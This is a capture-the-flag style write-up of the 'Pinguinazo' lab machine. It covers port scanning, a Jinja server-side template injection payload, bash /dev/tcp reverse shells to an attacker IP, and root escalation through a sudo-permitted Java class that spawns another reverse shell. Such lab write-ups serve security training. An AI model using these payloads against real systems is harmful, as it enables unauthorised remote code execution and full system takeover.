



# Pinguinazo

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
5000/tcp open  upnp    syn-ack ttl 64

```

## Examining ports

We are going to explore the version of this service. For this, we execute the following command:

```ruby
nmap -sCV -p5000 172.17.0.2 
```
we obtain this dataset:




## Analyzing web page

When we enter the web page, we obtain the following:

It looks like a form created with `Jinja`.


We can execute HTML injection to verify if it has any filters.


If we search for directories on the site with the Gobuster tool, we find `/console`

We need a password to access the console.



## Intrusion

We can try to access with `SSTI (Server Side Template Injection)`

We can run a command to execute an SSTI like this:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

we obtain:


Successfully, we obtain a response from the server showing our user.

Now we are going to prepare the reverse shell to connect with us.

First, we need to use the nc tool:

```ruby
nc -lvnp 1234
```

We can exploit with the following command:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/192.168.139.130/1234 0>&1"').read()}}
```


# TTY processing

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Privilege Escalation

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for pinguinazo on 17eb54554e98:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 17eb54554e98:
    (ALL) NOPASSWD: /usr/bin/java

```

We can see that we can execute Java scripts, so we can try to create a file to spawn a shell with root privileges.

Therefore, we need to edit the script with the following code:

```ruby
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.139.130/4321 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}

```

Now, we are able to spawn a shell with root privileges if we execute the following:

```ruby
sudo java shell
```


